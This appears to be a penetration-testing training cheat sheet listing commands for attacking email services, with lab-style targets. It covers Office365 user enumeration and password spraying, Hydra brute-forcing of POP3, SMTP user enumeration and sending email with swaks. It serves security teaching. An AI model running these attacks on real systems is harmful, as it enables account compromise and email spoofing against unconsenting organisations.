 # Attacking Email Services

| Command                                                                                     | Description                                                                      |
| ------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| `host -t MX microsoft.com`                                                                  | DNS lookup for mail servers for the specified domain.                            |
| `dig mx inlanefreight.com \| grep "MX" \| grep -v ";"`                                      | DNS lookup for mail servers for the specified domain.                            |
| `host -t A mail1.inlanefreight.htb.`                                                        | DNS lookup of the IPv4 address for the specified subdomain.                      |
| `telnet 10.10.110.20 25`                                                                    | Connect to the SMTP server.                                                      |
| `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`               | SMTP user enumeration using the RCPT command against the specified host.         |
| `python3 o365spray.py --validate --domain msplaintext.xyz`                                  | Verify the usage of Office365 for the specified domain.                          |
| `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz`                         | Enumerate existing users using Office365 on the specified domain.                |
| `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz` | Password spraying against a list of users that use Office365 for the specified domain. |
| `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`                                   | Brute-forcing the POP3 service.                                                  |
| `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Notification' --body 'Message' --server 10.10.11.213` | Send email using SWAKS (Swiss Army Knife for SMTP).                               |

